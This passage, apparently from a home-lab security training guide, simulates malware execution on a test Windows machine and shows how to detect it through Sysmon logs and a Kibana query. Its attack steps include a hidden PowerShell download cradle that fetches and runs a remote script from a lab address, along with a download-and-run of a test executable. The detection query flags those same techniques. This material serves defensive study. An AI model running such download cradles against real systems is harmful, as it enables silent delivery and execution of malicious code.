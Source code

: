 ```json
```

---

## Scenario 6: Malware Execution (Simulated)

### 🎯 Objective
Simulate malware execution and detect via Sysmon and process creation logs.

### 🔴 Attack Steps (On WIN10-VULN)

```powershell
# Download "malware" (actually harmless test file)
Invoke-WebRequest -Uri "http://192.168.1.50:8000/test-malware.exe" -OutFile "C:\Temp\malware.exe"

# Execute from suspicious location
C:\Temp\malware.exe

# PowerShell download cradle (common malware technique)
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.1.50:8000/script.ps1'))"

# Encoded command
powershell.exe -enc <base64_encoded_command>
```

### 📊 Logs Generated

**Sysmon Event ID 1** - Process Creation
**Sysmon Event ID 3** - Network Connection
**Sysmon Event ID 11** - File Created
**PowerShell Event ID 4104** - Script Block Logging

### 🔍 Detection in Kibana

**Query: Suspicious Process Execution**
```json
{
  "query": {
    "bool": {
      "should": [
        {"match": {"process.executable": "C:\\Temp\\*.exe"}},
        {"match": {"process.command_line": "-enc"}},
        {"match": {"process.command_line": "IEX"}},
        {"match": {"process.command_line": "downloadstring"}},
        {"match": {"process.parent.name": "cmd.exe"}},
        {
          "bool": {
            "must": [
              {"term": {"process.name": "powershell.exe"}},
              {"match": {"process.command_line": "-w hidden"}}
            ]
          }
        }
      ],
      "minimum_should_match": 1
    }
  }
}
```

---